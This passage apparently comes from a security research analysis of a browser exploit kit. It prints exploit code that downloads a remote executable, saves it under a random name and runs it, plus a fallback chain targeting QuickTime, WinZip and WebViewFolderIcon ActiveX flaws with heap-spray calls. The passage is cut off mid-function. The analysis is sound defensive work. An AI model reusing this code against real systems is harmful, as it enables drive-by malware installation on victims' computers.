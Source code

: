 ```
 if (v\[0\] && v\[1\] && v\[2\]) {
 var data = XMLHttpDownload(v\[0\], urlRealExe);
 if (data != 0) {
 var name = "c:\\\\sys"+GetRandString(4)+".exe";
 if (ADOBDStreamSave(v\[1\], name, data) == 1) {
 if (ShellExecute(v\[2\], name, n) == 1) {
 ret=1;
 }
 }
 }
 }
 return ret;
 }
```
Figure 11 - Exploit code - portion 1

The exploit code doesn’t stop there. As previously mentioned, the attack code in Figure 11 will fail on a fully patched version of Internet Explorer. If it does fail, the code in Figure 12 is executed. This code attempts to exploit a vulnerability in Apple’s QuickTime (BID: 21829), Winzip (http://www.securityfocus.com/archive/1/455612), and last finally in Microsoft’s web view (BID: 19030). The first two target much more recent vulnerabilities and non-browser applications, so even a fully patched Internet Explorer would allow for such an attack to be successful if the proper applications are installed. As browsers are becoming more secure, we expect attackers to concentrate on plug-ins and other client applications such as these.
```
function startOverflow(num)
 {
 if (num == 0) {
 try {
 var qt = new ActiveXObject('QuickTime.QuickTime');
 if (qt) {
 var qthtml = '<object CLASSID="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B"
 width="1" height="1" style="border:0px">'+
 '<param name="src" value="qt.php">'+
 '<param name="autoplay" value="true">'+
 '<param name="loop" value="false">'+
 '<param name="controller" value="true">'+
 '</object>';
 if (! mem\_flag) makeSlide();
 document.getElementById('mydiv').innerHTML = qthtml;
 num = 255;
 }
 } catch(e) { }
 if (num = 255) setTimeout("startOverflow(1)", 2000);
 else startOverflow(1);
 } else if (num == 1) {
 try {
 var winzip = document.createElement("object");
 winzip.setAttribute("classid", "clsid:A09AE68F-B14D-43ED-B713-BA413F034904");
 var ret=winzip.CreateNewFolderFromName(unescape("%00"));
 if (ret == false) {
 if (! mem\_flag) makeSlide();
 startWinZip(winzip);
 num = 255;
 }
 } catch(e) { }
 if (num = 255) setTimeout("startOverflow(2)", 2000);
 else startOverflow(2);
 } else if (num == 2) {
 try {
 var tar = new ActiveXObject('WebVi'+'ewFol'+'derIc'+'on.WebVi'+'ewFol'+'derI'+'con.1');
 if (tar) {
 if (! mem\_flag) makeSlide();
 startWVF();
```